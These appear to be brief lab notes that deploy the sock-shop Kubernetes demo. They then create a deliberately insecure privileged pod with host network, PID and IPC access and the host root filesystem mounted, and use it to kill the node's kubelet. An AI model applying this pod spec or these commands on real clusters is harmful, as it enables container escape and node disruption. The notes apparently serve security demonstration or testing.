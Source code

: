 # Deploy sock-shop
```
kubectl create namespace sock-shop
kubectl apply -n sock-shop -f https://raw.githubusercontent.com/microservices-demo/microservices-demo/master/deploy/kubernetes/complete-demo.yaml
```

# Get the frontend service
```
kubectl get svc -n sock-shop front-end
```

# Port forward to access locally
kubectl port-forward -n sock-shop svc/front-end 8080:80

# Create insecure-pod

```
kubectl run insecure-pod \
  --image=alpine \
  --overrides='
  {
    "apiVersion": "v1",
    "spec": {
      "hostNetwork": true,
      "hostPID": true,
      "hostIPC": true,
      "containers": [{
        "name": "insecure",
        "image": "alpine",
        "command": ["/bin/sh", "-c", "while true; do sleep 3600; done"],
        "securityContext": {
          "privileged": true,
          "allowPrivilegeEscalation": true,
          "runAsUser": 0
        },
        "volumeMounts": [{
          "mountPath": "/host",
          "name": "host-root"
        }]
      }],
      "volumes": [{
        "name": "host-root",
        "hostPath": {
          "path": "/",
          "type": "Directory"
        }
      }]
    }
  }' --restart=Never
```

# View host process

ps aux

# Kill

```
kubectl exec -it insecure-pod -- sh
killall kubelet
```
